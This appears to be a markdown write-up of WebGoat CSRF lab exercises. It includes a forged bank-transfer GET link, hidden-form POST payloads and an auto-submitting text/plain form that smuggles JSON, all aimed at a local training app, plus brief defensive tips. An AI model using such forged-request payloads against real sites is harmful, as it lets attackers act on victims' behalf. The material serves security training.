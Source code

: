 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8:2013 Request Forgeries](#a82013-request-forgeries)
  - [Cross-Site Request Forgeries](#cross-site-request-forgeries)
  - [Server-Side Request Forgery](#server-side-request-forgery)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8:2013 Request Forgeries

## Cross-Site Request Forgeries

### 1. What is a Cross-site request forgery?

### 2. CSRF witha GET request

`<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>`

### 3. Basic GET CSRF Exercise

```xml
<form 
	method="POST" 
	target="_blank" 
	action="http://localhost:8080/WebGoat/csrf/basic-get-flag">

    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">

</form>
```

### 4. Post a review on someone else’s behalf

```xml
<form 
	method="POST" 
	action="http://localhost:8080/WebGoat/csrf/review">

	<input 
		name="reviewText" 
		placeholder="Add a Review" 
		type="text">
	<input 
		name="stars" 
		type="text">
	<input 
		type="hidden" 
		name="validateReq" 
		value="2aa14227b9a13d0bede0388a7fba9aa9">
	<input 
		type="submit" 
		name="submit" 
		value="Submit review">
</form>
```

### 5. Automatic support from frameworks

Define a separate cookie for CSRF protection, do not reuse the session cookie.
Remember the session cookie should always be defined with http-only flag.

### 6. But I only have JSON APIs and no CORS enabled, how can those be susceptible to CSRF?

Do not rely on `application/json` content type but implement a proper CSRF protection.

### 7. CSRF and content-type

```
POST /csrf/feedback/message HTTP/1.1

{
  "name"    : "WebGoat",
  "email"   : "webgoat@webgoat.org",
  "content" : "WebGoat is the best!!"
}
```

```xml
<form
	name="postform"
	method="post"
	action="http://localhost:8080/WebGoat/csrf/feedback/message/"
	enctype="text/plain">
	
	<input 
		type="hidden" 
		name='
		{
			"name":"WebGoat",
			"email":"webgoat@webgoat.org",
			"content":"WebGoat is the best!!",
			"subject":"service'
		value='"}'>
</form>

<script type="text/javascript">
	document.postform.submit();
</script>
```

### 8. Login CSRF attack

TODO

### 9. 

## Server-Side Request Forgery